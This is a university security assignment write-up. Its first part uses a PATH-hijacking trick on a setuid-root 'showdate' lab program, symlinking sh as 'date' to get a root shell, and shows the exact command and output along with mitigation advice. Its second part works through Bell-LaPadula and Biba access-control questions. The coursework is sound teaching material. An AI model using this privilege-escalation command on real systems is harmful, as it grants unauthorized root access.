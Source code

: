 ```yaml
---
title: Assignment 4
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
---
```


\newcommand{\y}{\checkmark}
\newcommand{\n}{$\times$}

# 1
## a
The `showdate` program sets the group and user id to root using `setuid(0)` and `setgid(0)`, then it runs `system("date")`. As the program runs `date` with root privileges, we can start a root shell by substituting `date`.

We can see which system calls `showdate` uses with the `strace` command, here is a complete list:

```
$ strace -f ./showdate 2>&1 | grep -oP "\w+(?=\()" | sort -u
access
arch_prctl
brk
clone
close
execve
exit_group
fcntl
fstat
getegid
geteuid
getgid
getpgrp
getpid
getppid
getuid
ioctl
lseek
mmap
mprotect
munmap
open
openat
prlimit64
read
rt_sigaction
rt_sigprocmask
setgid
setuid
stat
sysinfo
uname
wait4
write
```

## b
We created a symbolic link called `date` in the current directory, to which we have write permissions as a non-privileged user, then we prepended the current directory to the `PATH` environment variable, which is also under out control.

When the `showdate` executable is run, it assumes root privileges due to the `setuid` flag, and the owner of the file being root. It then looks up `date`, which internally uses the `PATH` variable, to which we prepended the directory with the symbolic link to `sh`. Instead of executing the `date` binary as intended, it therefore executes `sh` with root privileges, and we have a root shell.

```sh
hendrik ~/uni/assignment4 % id
uid=1000(hendrik) gid=100(users) groups=100(users), …
hendrik ~/uni/assignment4 % ln -s $(which sh) date && PATH=.:$PATH ./showdate
root ~/uni/assignment4 $ id
uid=0(root) gid=0(root) groups=0(root), …
```

We implemented the attack as a `make` target, so it can simply be executed by running `make exploit`.

## c
During the development of software intended to be run with `setuid-root`, special attention must be payed to not rely on any aspect of the environment controllable by non-root users. This includes environment variables. The attack was possible because the path to `date` was not hardcoded, but it was taken from the environment. We could not alter anything in `/usr/bin`, or `showdate` itself, but we could make the lookup for the `date` executable find what we wanted by altering the `PATH` environment variable, which does not require special privileges.

# 2
## a
We assume that both the Bell-LaPadula, and the Biba rules use weak tranquility.

|action|access allowed|Bell-LaPadula level|Biba level|
|-----:|:------------:|:-----------------:|:--------:|
i|\y|unclassified|trusted
ii|\y|unclassified|system
iii|\n|unclassified|system
iv|\y|unclassified|system
v|\y|confidential|system
vi|\n|confidential|system

Peter's process must not drop below level "application", but Biba disallows read-down, so the process is denied access to `/home/peter/database`, because it requires application "user" or lower to be read. The action iii is disallowed.

Action vi is disallowed, because Biba disallows write-up, and the process has level "system", but it would need "trusted" to be allowed to write `/etc/shadow`. Bell-LaPadula allows write-up, so that is not a problem.

## b
After executing the 6 actions from 2a, the process has level ("confidential", "system"). Bell-LaPadula disallows write-down, so the file may have levels "confidential", "secret", or "top secret", but **not** "unclassified". Biba disallows write-up, so the file may have levels "system", "application", "user", or "untrusted", but **not** "trusted".

`/home/peter/out` may have any level in {"confidential", "secret", "top secret"} $\times$ {"system", "application", "user", "untrusted"}, like, for example, ("confidential", "user") or ("secret", "system").
